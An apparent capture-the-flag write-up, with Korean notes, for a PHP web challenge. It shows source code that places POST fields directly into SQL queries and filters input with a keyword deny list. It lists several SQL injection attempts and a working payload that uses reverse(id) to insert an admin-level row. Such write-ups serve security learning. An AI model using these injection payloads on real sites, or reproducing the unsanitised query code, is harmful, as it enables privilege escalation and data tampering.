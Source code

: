 # 59

## Problem
```php
<?

if($_POST[lid] && $_POST[lphone])
{
$q=@mysql_fetch_array(mysql_query("select id,lv from c59 where id='$_POST[lid]' and phone='$_POST[lphone]'"));

if($q[id])
{

echo("id : $q[id]<br>lv : $q[lv]<br><br>");

if($q[lv]=="admin")
{
@mysql_query("delete from c59");
@clear();
}

echo("<br><a href=index.php>back</a>");
exit();
}

}


if($_POST[id] && $_POST[phone])
{
if(strlen($_POST[phone])>=20) exit("Access Denied");
if(eregi("admin",$_POST[id])) exit("Access Denied");
if(eregi("admin|0x|#|hex|char|ascii|ord|from|select|union",$_POST[phone])) exit("Access Denied");

@mysql_query("insert into c59 values('$_POST[id]',$_POST[phone],'guest')");
}

?>
```

## Inspection
* `JOIN` -> `id`, `phone`
* `LOGIN` -> `lid`, `lphone`
* 로그인 시 나온 쿼리 결과값의 `lv`이 `admin`이라면 통과한다.
    - Loose comparison으로 숫자 `0`과 비교하면 같다고 뜬다.
* `if($_POST[id] && $_POST[phone])`
    - `id`와 `phone`이 둘다 값이 입력되어야 한다.
* `if(strlen($_POST[phone])>=20) exit("Access Denied");`
    - `phone`의 길이가 20글자 이상이면 거른다.
* `if(eregi("admin",$_POST[id])) exit("Access Denied");`
    - `id`에 `admin`이 들어가면 거른다.
* `if(eregi("admin|0x|#|hex|char|ascii|ord|from|select|union",$_POST[phone])) exit("Access Denied");`
    - `phone`에 `admin`, `0x`, `#`, `hex`, `char`, `ascii`, `ord`, `from`, `select`,`union`이 들어가면 거른다.
* `@mysql_query("insert into c59 values('$_POST[id]',$_POST[phone],'guest')");`
    - 세 번째 인자가 `lv`일 것이다.

## Trial and error
* 로그인 쿼리에서 다음과 같은 SQLi 시도함.
	- `tt`, `11' union select 'xx', 'admin`
	- `' or id like 'admi%`
* 가입 쿼리에서 다음과 같은 SQLi 시도함.
	- `tttt,1111,'gguest'); #`
	- `test3',1234,'guest');%00`
	- `'1234','ad'+'min') -- `
	
## Solution
* `JOIN`
	- `?id=nimda`
	- `?phone=9,reverse(id)),(1,2`
* 위 파라미터로 가입 시도시 성공한다.
